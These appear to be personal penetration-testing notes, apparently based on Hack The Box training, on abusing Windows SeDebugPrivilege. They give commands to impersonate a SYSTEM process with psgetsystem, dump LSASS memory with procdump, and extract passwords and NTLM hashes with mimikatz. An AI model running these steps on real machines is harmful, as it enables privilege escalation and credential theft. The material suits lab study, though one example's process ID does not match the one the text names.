 ### sedebug Privilege

you can leverage this to create a dump for  lsass process memmory with pypykatz/mimikatz to 
extract pass hash
## Impact
- **SeDebugPrivilege → SYSTEM shell → run Mimikatz `sekurlsa` or `lsadump` modules** is the best and most reliable technique.
- 1. **SYSTEM SHELL** + sam dump:  we can elevate our privileges to SYSTEM by launching a [child process](https://docs.microsoft.com/en-us/windows/win32/procthread/child-processes) and using the elevated rights granted to our account via `SeDebugPrivilege` to alter normal  system behavior to inherit the token of a [parent process](https://docs.microsoft.com/en-us/windows/win32/procthread/processes-and-threads) and impersonate it. If we target a parent process running as SYSTEM

- **2. Dump creds that are in memory ( dump lsass process mem)**:
	run: `sekurlsa::logonpasswords`
## Requirements
- sedebug privilege
---
## Exploitation Techniques
### 1. `auto abuse sedebug to  system shell script` (needs compile)
### exploitation steps:
1. **manually**
- run tasklist
- select a process running as system
- create child process (cmd) with token of parent (process thats running as system)
---
## 1.  psgetsystem (semi manual) RCE
blog link: [usage guide for script](https://decoder.cloud/2018/02/02/getting-system/)
tool repo: https://github.com/decoder-it/psgetsystem

First, open an elevated PowerShell console, type creds,
`run tasklist to find a SYSTEM process`
```powershell-session
PS C:\htb> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

Here we can target `winlogon.exe` running under PID 612, which we know runs as SYSTEM on Windows hosts.

`execute script and target winlogon as the parent process`
```
. .\psgetsys.ps1
ImpersonateFromParentPid -ppid 2056 -command c:\Windows\System32\cmd.exe -cmdargs whoami  
```

![](Pasted%20image%2020250311180331.png)
We could also use the [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) cmdlet to grab the PID of a well-known process that runs as SYSTEM (such as LSASS) and pass the PID directly to the script, cutting down on the number of steps required.

![image](https://academy.hackthebox.com/storage/modules/67/psgetsys_lsass.png)



```
PS> . .\psgetsys.ps1 

PS> ImpersonateFromParentPid -ppid <parentpid> -command <command to execute> -cmdargs <command arguments>
```
We could also use the [Get-Process](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-process?view=powershell-7.2) cmdlet to grab the PID of a well-known process that runs as SYSTEM (such as LSASS) and pass the PID directly to the script, cutting down on the number of steps required.

![image](https://academy.hackthebox.com/storage/modules/67/psgetsys_lsass.png)



3 . **with auto abuse script**:
https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations
- download script 
Other tools such as [this one (.exe to compile)](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) exist to pop a SYSTEM shell when we have `SeDebugPrivilege`. 
## 2. dump lsass mem:
#### Exploitation steps
with GUI Access: Task maanger dump lsass process memmory
- without GUi: `procdump` , then you can either:
- run mimkatz on host to extract cached creds.
-  copy `.dmp` file  to kali, then run pypykatz

`procdump lsass`
```cmd-session
> procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

` mimikatz minidump::`
```
#mimikatz
# log <- saves output (good for many creds)
# sekurlsa::minidump lsass.dmp     ! Extracts NTLM hash
sekurlsa::logonpasswords
```
---
#### manual  lsass dump
Suppose we are unable to load tools on the target for whatever reason but have RDP access. In that case, we can take a manual memory dump of the `LSASS` process via the Task Manager by browsing to the `Details` tab, choosing the `LSASS` process, and selecting `Create dump file`. After downloading this file back to our attack system, we can process it using Mimikatz the same way as the previous example.
![](Pasted%20image%2020250311175151.png)

---
